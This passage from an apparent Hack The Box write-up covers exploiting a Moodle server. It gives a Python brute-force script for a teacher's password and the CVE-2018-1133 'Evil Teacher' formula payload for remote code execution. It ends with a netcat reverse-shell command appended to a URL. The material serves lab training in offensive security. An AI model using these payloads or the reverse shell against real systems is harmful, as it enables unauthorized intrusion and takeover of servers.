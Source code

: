     ![Moodle Login](./screenshots/19_teacher/80_teacher_moodle_login.png)

---

## PART 3 : EXPLOITATION

1. Complete __giovanni__'s password:
   - __*moodle_login.py*__
     ```py
     import requests as r

     characters = "abcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()"
     for i in characters:
    
         creds = {
             "username": "Giovanni",
             "password": "Th4C00lTheacha" + i
         }
    
         req = r.post("http://10.10.10.153/moodle/login/index.php", data=creds)

         err_message = "Invalid login"
         if err_message not in req.text: 
     
             print("PASSWORD: " + creds["password"])
             break
     ```
   - Run the python script
     ```console
     $ python3 moodle_login.py

       PASSWORD: Th4C00lTheacha# 

     ```

2. Login to __moodle__ using __`giovanni : Th4C00lTheacha#`__:
   1. Set-up moodle exploit -- __Evil Teacher__ ([CVE-2018-1133](https://blog.ripstech.com/2018/moodle-remote-code-execution/]))
      1. Select a quiz
      2. Click __Edit quiz__
      3. Add a new question
         1. Select __Calculated__ then __Add__
         2. Fill up the required fields:
            - Question name: \<ANYTHING GOES HERE\>
            - Question text: \<ANYTHING GOES HERE\>
            - Answer 1 Formula: `/*{a*/`$_GET[cmd]`;//{x}}`
            - Grade: 100%
      4. Click __Save changes__
      5. Click __Next page__
   2. Set-up local netcal listener 
      ```console
      $ nc -lvp 4444
      ```
   3. Append `&cmd=(date; nc <HTB IPv4> 4444 -e /bin/bash)` to URL
   4. Submit the URL
